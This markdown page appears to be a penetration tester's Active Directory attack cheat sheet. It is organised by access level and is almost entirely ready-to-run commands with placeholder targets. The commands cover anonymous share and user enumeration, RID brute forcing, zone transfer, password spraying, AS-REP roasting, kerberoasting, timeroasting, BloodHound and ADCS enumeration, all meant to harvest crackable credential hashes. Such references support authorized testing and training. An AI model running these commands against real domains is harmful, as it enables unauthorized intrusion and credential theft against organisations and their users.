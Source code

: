 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Active Directory Methodology

## No credentials

### Enumeration

```sh
nxc smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
ldapsearch -x -H <dc_ip> -s base
```

### Zone transfer

{% code overflow="wrap" %}
```sh
dig axfr <domain> @<dc_ip>
```
{% endcode %}

### Shares

```sh
nxc smb <IP> -u '' -p '' --shares
nxc smb <IP> -u 'guest' -p '' --shares
```

### Enumerate users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> --users
nxc smb <dc_ip> --rid-brute 10000
```
{% endcode %}

```sh
kerbrute userenum -d <domain> <users.txt>
```

### Timeroast

{% code overflow="wrap" %}
```sh
timeroast.py <dc_ip>
```
{% endcode %}

## Valid user (no password)

### Password spray

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success
```
{% endcode %}

### ASREP Roast <a href="#asreproast" id="asreproast"></a>

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u <users.txt> -p '' --asreproast <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetNPUsers.py <domain>/ -usersfile <users.txt>
```
{% endcode %}

### Blind kerberoast

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -no-preauth '<asrep_user>' -usersfile <users.txt> -dc-host '<dc_ip>' <domain>/
```
{% endcode %}

## Valid credentials

### List all users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' --users
```
{% endcode %}

### Enumerate SMB shares

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' -M spider_plus
```
{% endcode %}

{% code overflow="wrap" %}
```sh
smbclient.py '<user>:<passwod>@<dc_ip>'
```
{% endcode %}

### BloodHound

{% code overflow="wrap" %}
```sh
bloodhound-ce-python -d '<domain>' -u '<user>' -p '<password>' [-ns '<dc_ip>'] -c All --zip
```
{% endcode %}

### Enumerate LDAP

{% code overflow="wrap" %}
```sh
ldapdomaindump.py -u '<domain>\<user>' -p '<password>' -o <output_folder> '<dc_ip>'
```
{% endcode %}

### Enumerate ADCS

{% code overflow="wrap" %}
```sh
certipy find -u '<user>@<domain>' -p '<password>' -dc-ip '<dc_ip>' -stdout
```
{% endcode %}

### Kerberoast

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u '<user>' -p '<password>' --kerberoasting <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -request -dc-ip '<dc_ip>' '<domain>/<user>:<password>'
```
{% endcode %}

{% hint style="danger" %}
If you find this error from Linux: `KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC.

{% code overflow="wrap" fullWidth="false" %}
```sh
sudo ntpdate <dc_ip>
```
{% endcode %}
{% endhint %}

